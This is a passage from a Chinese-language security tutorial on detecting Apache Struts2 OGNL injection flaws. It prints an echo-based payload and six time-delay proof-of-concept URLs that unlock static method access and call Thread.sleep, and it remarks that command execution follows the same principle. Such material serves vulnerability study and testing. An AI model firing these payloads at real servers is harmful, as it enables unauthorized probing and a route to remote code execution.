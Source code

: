 ```
http://localhost/Struts2/test.action?redirect:${%23w%3d%23context.get('com.opensymphony.xwork2.dispatcher.HttpServletResponse').getWriter(),%23w.println('[/ok]'),%23w.flush(),%23w.close()} 
```

**@org.apache.struts2.ServletActionContext@getResponse().getWriter().println(%22[/ok]%22)**其实是静态调用**ServletActionContext**上面已经讲过了 ServletActionContext 能够拿到真正的 HttpServletRequest、HttpServletResponse、ServletContext 忘记了的回头看去。**拿到一个 HttpServletResponse 响应对象后就可以调用 getWriter 方法(返回的是 PrintWriter)让 Servlet 容器上输出[/ok]了，而其他的 POC 也都做了同样的事：拿到 HttpServletResponse，然后输出[/ok]。**其中的 allowStaticMethodAccess 在 Struts2 里面默认是 false，也就是默认不允许静态方法调用。

#### **精确判断是否存在（延迟判断）:**

POC1:

```
http://127.0.0.1/Struts2/test.action?('\43_memberAccess.allowStaticMethodAccess')(a)=true&(b)(('\43context[\'xwork.MethodAccessor.denyMethodExecution\']\75false')(b))&('\43c')(('\43_memberAccess.excludeProperties\75@java.util.Collections@EMPTY_SET')(c))&(d)(('@java.lang.Thread@sleep(5000)')(d)) 
```

POC2:

```
http://127.0.0.1/Struts2/test.action?id='%2b(%23_memberAccess[%22allowStaticMethodAccess%22]=true,@java.lang.Thread@sleep(5000))%2b' 
```

POC3:

```
http://127.0.0.1/Struts2/hello.action?foo=%28%23context[%22xwork.MethodAccessor.denyMethodExecution%22]%3D+new+java.lang.Boolean%28false%29,%20%23_memberAccess[%22allowStaticMethodAccess%22]%3d+new+java.lang.Boolean%28true%29,@java.lang.Thread@sleep(5000))(meh%29&z[%28foo%29%28%27meh%27%29]=true 
```

POC4：

```
http://127.0.0.1/Struts2/hello.action?class.classLoader.jarPath=(%23context%5b%22xwork.MethodAccessor.denyMethodExecution%22%5d%3d+new+java.lang.Boolean(false)%2c+%23_memberAccess%5b%22allowStaticMethodAccess%22%5d%3dtrue%2c+%23a%3d%40java.lang.Thread@sleep(5000))(aa)&x[(class.classLoader.jarPath)('aa')] 
```

POC5：

```
http://127.0.0.1/Struts2/hello.action?a=1${%23_memberAccess[%22allowStaticMethodAccess%22]=true,@java.lang.Thread@sleep(5000)} 
```

POC6:

```
http://127.0.0.1/Struts2/${%23_memberAccess[%22allowStaticMethodAccess%22]=true,@java.lang.Thread@sleep(5000)}.action 
```

之前很多的利用工具都是让线程睡一段时间再去计算时间差来判断漏洞是否存在。这样比之前的回显更靠谱，缺点就是慢。而实现这个 POC 的方法同样是非常的简单其实就是静态调用 java.lang.Thread.sleep(5000)就行了。而命令执行原理也是一样的。
